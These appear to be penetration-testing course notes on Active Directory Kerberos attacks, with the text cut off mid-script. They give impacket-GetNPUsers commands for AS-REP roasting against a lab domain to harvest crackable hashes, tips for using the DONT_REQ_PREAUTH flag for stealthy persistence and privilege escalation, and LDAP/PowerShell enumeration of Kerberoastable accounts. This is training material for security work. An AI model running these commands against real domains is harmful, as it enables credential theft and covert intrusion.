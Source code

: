 ## ASREP Roasting from Linux

- *Note: When working with Kerberos on Linux, we need to use the target's DNS server or configure our host machine with the corresponding DNS entries for the domain we are targetting. That is, we need to have an entry in /etc/hosts for the domain/Domain Controller before attacking it.*

### From an authenticated account

#### AS-REP Roastable Users Enumeration
```Shell
impacket-GetNPUsers inlanefreight.local/pixis
```

#### Requesting AS-REP Roastable Hashes
```Shell
impacket-GetNPUsers inlanefreight.local/pixis -request
```

### From an unauthenticated account

#### Finding AS-REP Roastable Accounts w/o Authentication
```Shell
impacket-GetNPUsers INLANEFREIGHT/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
```

### ==Red Team Usage for AS-REP Roasting==
- **Persistence:** Setting this bit (i.e., the DONT_REQ_PREAUTH flag) on accounts would allow attackers to regain access to accounts in case of a password change. This is useful because it lets the team establish persistence on boxes that are likely outside the scope of monitoring (e.g., Printers) and still have a high probability of gaining access to the domain at any time. We may see this setting enabled on service accounts used by old management applications, and if discovered, the blue team may ignore them.
- **Privilege Escalation:** There are many scenarios where an attacker can change any attribute of an account but not the ability to log in without knowing or resetting the password. Password resets are dangerous as they have a high probability of raising alarms. Instead of resetting the password, attackers can enable this bit and attempt to crack the account's password hash.

## Kerberoasting

- Requires a valid domain user account or a SYSTEM (or low privileged domain account) shell on a domain-joined machine

### Manual Detection (Windows)

#### LDAP Query for users exposing a service
```ldap
&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```

#### PowerShell script that automates finding these accounts in an environment
```PowerShell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-host "User" 
    Write-Host "===="
    Write-Host $userEntry.name "(" $userEntry.distinguishedName ")"
        Write-host ""
    Write-host "SPNs"
```